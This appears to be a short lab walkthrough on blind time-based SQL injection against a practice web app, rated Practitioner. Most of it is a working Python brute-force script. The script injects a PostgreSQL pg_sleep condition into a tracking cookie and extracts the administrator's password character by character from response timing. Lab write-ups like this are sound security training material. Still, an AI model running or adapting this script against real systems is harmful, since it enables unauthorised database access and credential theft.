



# Blind SQL injection with time delays and information retrieval

**Level:** <mark style="color:blue;">**Practitioner**</mark>

<figure><figcaption></figcaption></figure>

* Now that we know how to detect a time based SQLi, let's retrieve information from it.

<figure><figcaption></figcaption></figure>

* So here with this query we are saying that if the first character of the password column is "**a"** wait/sleep 5 seconds, if not respond immediately.

Here is another python script to make easier the job:

```python
from pwn import *
import requests, sys, signal, time, string


def def_handler(sig, frame):
	print("\n[!]Exiting...\n")
	sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = '<URL>'
characters = string.ascii_uppercase + string.ascii_lowercase + string.digits

def makeRequest():

	password=""

	p1 = log.progress("Brute Force")
	p1.status("Starting Brute Force")

	time.sleep(2)

	p2 = log.progress("Password")


	for position in range(1, 21):


		for character in characters:


			cookies = {
				'TrackingId':"VAQbW7S8KrF2htgm'||(select case when substring(password,%d,1)='%s' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -" % (position, character),
				'session':'DgVOSddIEwOwc6JgYeHzcQnAIpsou7rE'
			}

			p1.status(cookies['TrackingId'])

			time_start = time.time()


			r = requests.get(main_url, cookies=cookies)


			time_end = time.time()

			if time_end - time_start > 1.5:
				password += character
				p2.status(password)
				break


if __name__ == '__main__':

	makeRequest()
```

<figure><figcaption></figcaption></figure>

* Just wait for the password to retrieve.
